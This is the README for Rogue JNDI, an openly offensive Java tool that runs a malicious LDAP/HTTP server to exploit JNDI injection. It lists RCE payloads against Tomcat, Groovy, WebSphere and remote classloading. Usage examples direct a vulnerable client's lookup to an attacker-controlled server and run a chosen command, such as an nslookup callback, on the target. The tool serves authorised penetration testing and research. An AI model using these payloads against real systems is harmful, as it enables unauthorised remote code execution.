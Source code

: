 ## Rogue JNDI
A malicious LDAP server for JNDI injection attacks.

### Description
The project contains LDAP & HTTP servers for exploiting insecure-by-default Java JNDI API.<br> 
In order to perform an attack, you can start these servers locally and then trigger a JNDI resolution on the vulnerable client, e.g.:
```java
InitialContext.doLookup("ldap://your_server.com:1389/o=reference");
```
It will initiate a connection from the vulnerable client to the local LDAP server.
Then, the local server responds with a malicious entry containing one of the payloads, that can be useful to achieve a Remote Code Execution. 

### Motivation
In addition to the known JNDI attack methods(via remote classloading in references), this tool brings new attack vectors by leveraging the power of [ObjectFactories](https://docs.oracle.com/javase/8/docs/api/javax/naming/spi/ObjectFactory.html).

### Supported payloads
* [RemoteReference.java](/src/main/java/artsploit/controllers/RemoteReference.java) - classic JNDI attack, leads to RCE via remote classloading, works up to jdk8u191 
* [Tomcat.java](/src/main/java/artsploit/controllers/Tomcat.java) - leads to RCE via unsafe reflection in **org.apache.naming.factory.BeanFactory** 
* [Groovy.java](/src/main/java/artsploit/controllers/Groovy.java) - leads to RCE via unsafe reflection in **org.apache.naming.factory.BeanFactory** + **groovy.lang.GroovyShell**
* [WebSphere1.java](/src/main/java/artsploit/controllers/WebSphere1.java) - leads to OOB XXE in **com.ibm.ws.webservices.engine.client.ServiceFactory**
* [WebSphere2.java](/src/main/java/artsploit/controllers/WebSphere2.java) - leads to RCE via classpath manipulation in **com.ibm.ws.client.applicationclient.ClientJ2CCFFactory**

### Usage
```
$ java -jar target/RogueJndi-1.0.jar -h
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Usage: java -jar target/RogueJndi-1.0.jar [options]
  Options:
    -c, --command  Command to execute on the target server (default: 
                   /Applications/Calculator.app/Contents/MacOS/Calculator) 
    -n, --hostname Local HTTP server hostname (required for remote 
                   classloading and websphere payloads) (default: 
                   192.168.1.10) 
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8000)
    --wsdl         [websphere1 payload option] WSDL file with XXE payload 
                   (default: /list.wsdl)
    --localjar     [websphere2 payload option] Local jar file to load (this 
                   file should be located on the remote server) (default: 
                   ../../../../../tmp/jar_cache7808167489549525095.tmp) 
    -h, --help     Show this help
```
The most important parameters are the ldap server hostname (-n, should be accessible from the target) and the command you want to execute on the target server (-c).
 
As an alternative to the "-c" option, you can modify the [ExportObject.java](/src/main/java/artsploit/ExportObject.java) file by putting java code you want to execute on the target server. 

### Example:
```
$ java -jar target/RogueJndi-1.1.jar --command "nslookup your_dns_sever.com" --hostname "192.168.1.10"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://192.168.1.10:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://192.168.1.10:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://192.168.1.10:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://192.168.0.166:1389/o=tomcat10 to artsploit.controllers.Tomcat10
Mapping ldap://192.168.1.10:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://192.168.1.10:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://192.168.1.10:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://192.168.1.10:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://192.168.1.10:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://192.168.0.166:1389/o=h2 to artsploit.controllers.H2
```

### Building
Java v1.7+ and Maven v3+ required
```
mvn package
```

### Disclamer
This software is provided solely for educational purposes and/or for testing systems which the user has prior permission to attack.

### Special Thanks
* [Alvaro Muñoz](https://twitter.com/pwntester) and [Oleksandr Mirosh](https://twitter.com/olekmirosh) for the excellent [whitepaper](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf) on JNDI attacks
* [@zerothoughts](https://github.com/zerothoughts) for the inspirational [spring-jndi](https://github.com/zerothoughts/spring-jndi) repository
* [Moritz Bechler](https://github.com/zerothoughts) for the eminent [marshallsec](https://github.com/mbechler/marshalsec) research
* [Orange Tsai](https://twitter.com/orange_8361) and [Welk1n](https://github.com/welk1n) for the Apache + Groovy gadget

### Links
* An article about [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java) in the Veracode Blog
* [How I Hacked Facebook Again! Unauthenticated RCE on MobileIron MDM](https://blog.orange.tw/2020/09/how-i-hacked-facebook-again-mobileiron-mdm-rce.html) 

### Authors
[Michael Stepankin](https://twitter.com/artsploit)